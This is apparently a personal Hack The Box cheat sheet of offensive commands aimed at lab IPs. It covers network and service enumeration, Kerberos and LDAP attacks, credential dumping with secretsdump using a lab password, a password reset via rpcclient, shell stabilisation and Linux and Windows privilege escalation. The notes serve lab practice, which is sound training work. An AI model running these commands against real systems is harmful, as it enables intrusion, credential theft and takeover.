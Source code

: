 ### HTB NOTES
Some useful notes made while playing HTB
### Initial recon 
```
rustscan 10.10.10.191 -- -p- -sV -A -Pn
nmap -p- -sV -A -Pn 10.10.10.191
```

### http/https_open?:
	gobuster
	content discovery via burp
	wfuzz -c -w /root/xPayloads/SecLists/Discovery/Web-Content/common.txt --hc 404,403 -u "http://example.com/FUZZ.txt" -t 100
	python3 ./dirsearch.py -u http://10.10.10.175 -e *
	cewl -w wordlists.txt -d 10 -m 1 http://blunder.htb/

### shell uploaded but no path?
	python3 dirsearch.py -u http://10.10.10.28 -e php

### Need users?:
	grab from: 
		-site "About Us"
		-random files on smb or http server
		-ldap
	create user list:
		-John Doe
			-jdoe
			-johndoe
			-john.doe
###  nfs?:
	sudo showmount -e 10.10.10.10.
	mount -t nfs 10.10.10.100:/site_backups /root/HTB/remote/site_backup
	
### dns-open?:
	-dnsrecon -d 10.10.10.100 -r 10.0.0.0/8 #this will return hostname of box

### kerberos_open?:
	try to bruteforce users, create list from site or try to withdraw from ldap
	kerbrute userenum -d EGOTISTICALBANK users.txt --dc 10.10.10.175
	GetNPUsers.py BLACKFIELD.LOCAL/support -dc-ip 10.10.10.192 -no-pass

### ldap_open?:
	nslookup; server 10.10.10.100 ; 127.0.0.1; 10.10.10.100
	ldapsearch -x -h 10.10.10.175 -p 389 -s base namingcontexts
	ldapsearch -x -h 10.10.10.175 -p 389 -b "DC=EGOTISTICAL-BANK,DC=LOCAL"
		-or nmap -p 389 --script ldap-search

### smb_open?:
	locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
	nmap --script safe -p 445 10.10.10.100
	nmap --script smb-enum-services -p 445 10.10.10.100
	smbclient -N -L //10.10.10.100
	smbclient -N  //10.10.10.100/backups
	smbmap -H 10.10.10.100
		-smbap -R replication -H 10.10.10.10. -A Groups.xml -q
	
	rpcclient -U support //10.10.10.192
		-rpcclient $> setuserinfo2 support 23 'Password!'


### msql_open?:
	-python3 ~/tools/impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth


### got_win_admin?:
	-python ~/tools/impacket/examples/psexec.py administrator@10.10.10.27 #Admin shell 


### linux shell todo:
Got Reverse shell?
```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
or
```
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```

or

## Escalation Linux

### Sudo wierdos
```
id 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
sudo -l sudo: unable to open /run/sudo/ts/ash: Read-only file system [sudo] password for ash: Sorry, user ash may not run sudo on tabby.
[https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)  
```
[https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation)


```
sudo -l
root    ALL=(ALL:ALL) ALL
sudo -u#-1 /bin/bash
```
### Look for suid:
```
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```
### Automated recon:
```
LinEnum.sh
linuxprivchecker.py

```
### Enumerate internal services:
```
nmap -p- 127.0.0.1
cat /proc/330/cmdline #sometimes there is password in command :P
```

### Search password in filses:
```
find / -name "*backup*" 2>/dev/null
find / -name "*users*" 2>/dev/null
Check config files db connections:
find / -name "db.php" 2>/dev/null 
go to webapp dir
```




zip-cracking:
```
fcrackzip -D -p rockyou test.zip
```
## Windows:
```
Check groups:
	-Local Group Memberships      *AD Recycle Bin 
		-Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
Check ACLS:
	-invoke-aclscaner:
		-ObjectAceType           : 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 <-dnssync
			-secretsdump.py -dc-ip 10.10.10.175 'EGOSTATICAL-BANK.LOCAL/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'

Privileges:
	-SeBackupPrivilege             Back up files and directories  Enabled
	 SeRestorePrivilege            Restore files and directories  Enabled
		-shadowcopy
	-SeImpersonate
		-PrintSpoofer.exe

```
